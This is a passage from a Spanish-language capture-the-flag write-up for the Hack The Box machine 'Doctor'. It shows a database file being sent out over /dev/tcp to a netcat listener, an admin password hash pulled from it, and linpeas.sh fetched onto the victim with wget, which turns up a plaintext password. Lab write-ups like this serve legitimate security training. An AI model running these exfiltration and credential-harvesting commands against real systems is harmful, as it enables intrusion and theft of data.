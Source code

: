 Vamos a transferir el archivo a nuestra maquina de atacante

```bash
web@doctor:~/blog/flaskblog$ cat < site.db > /dev/tcp/10.10.14.5/443
❯ nc -nlvp 443 > site.db
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.209] 58622
❯ ls
 site.db
❯ file site.db
site.db: SQLite 3.x database, last written using SQLite version 3032003
```

## Database 

De primeras nos podemos conectar y vemos un hash que al parecer es de admin pero no creo que nos sirva tal vez podamos reutilizar credenciales en caso de que sepamos la contraseña pero seguiremos enumerando

```bash
❯ sqlite3 site.db
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> select * from user;
1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
sqlite> 
```

## Shell as Shaun

Bueno vamos a subir el **linpeas.sh** ala maquina victima ya que después de enumerar no encontré nada interesante <https://github.com/carlospolop/PEASS-ng/releases>

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.10.209 - - [06/Jun/2023 16:50:47] "GET /linpeas.sh HTTP/1.1" 200 -
```

```bash
web@doctor:/dev/shm$ wget http://10.10.14.5:8080/linpeas.sh
--2023-06-07 00:50:45--  http://10.10.14.5:8080/linpeas.sh
Connecting to 10.10.14.5:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 836054 (816K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 816,46K  28,7KB/s    in 27s     

2023-06-07 00:51:13 (29,8 KB/s) - ‘linpeas.sh’ saved [836054/836054]

web@doctor:/dev/shm$ 
```

Después de darle permisos de ejecución y ejecutarlo vemos esto encontramos una contraseña que es `Guitar123`, al parecer un usuario realizo un cambio de contraseña y se guardo la petición en un archivo
